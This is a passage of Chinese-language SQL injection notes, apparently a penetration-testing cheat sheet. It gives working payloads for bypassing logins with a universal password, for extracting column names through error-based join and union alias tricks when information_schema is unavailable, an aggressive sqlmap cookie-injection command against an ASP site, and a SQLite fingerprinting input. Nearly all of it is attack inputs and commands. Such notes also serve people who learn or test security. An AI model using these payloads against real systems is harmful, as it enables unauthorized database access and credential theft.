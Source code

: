 可以获取所有用户名和密码不为0的数据，利用这种方式可以构造万能密码

```sql
select * from users where username=0 and password=0
select * from users where username='abcd' + '0' and password='abc' + '0'
```


## 不知道列名时的注入

### 方法1

在无法通过 information_schema 查询列名时，如果存在 SQL 错误回显，可以使用如下方法查询出列名。

```
select * from users where username='admin' and (select * from (select * from users as a join users as b using(username)) as c)

// 会显示这些错误信息
[Err] 1060 - Duplicate column name 'password'
```

当做 join 操作时，如果两个表都有相同的字段，可以使用 using，这样可以少写 SQL 语句，因为使用了 using，两个相同的表做 join 时，using 里面的字段只会保留一个，但是另外在using里面的，就会出现两个，导致出现 Duplicate column。
如果是使用 join on，则是会把所有的列都保留，也就是这里会有两个相同的 id，name, password，因为报错只显示第一个错误，会提示 Duplicate column name 'id'。

### 方法2

是用两个 select union 的方式，目标的表用 select  * 查询出所有的列，然后另外一个表使用 select 1,2 as c，利用别名的方式，为该序号的列定义了一个列名，由于有 union，两个表在该序号的列就可以使用新的列名，然后外层 select 使用新的列名查询出来。

```
select c from (select 1,2 as c union(select * from users)) as b
// 别名的另外一种方法，不使用 as
select c from (select 1,2`c` union(select * from users))`b`
```

## 一些函数

### exists 

判断是否存在

```
exists(select * from admin)
```

## ASP 的网站

遇到 asp 的网站，发现有在url中获取id参数，那么也可能会从Cookie中获取，可以尝试 Cookie 注入


```
sqlmap -u "http://10.10.1.202/shownews.asp?id=83" --level=2 --risk=3 --cookie="id=82" --current-db --tables --batch
```

## SQLite

输入 ''' 看到如下数据，可以判断是 sqlite 数据库

```
unrecognized token: "202cb962ac59075b964b07152d234b70"
```


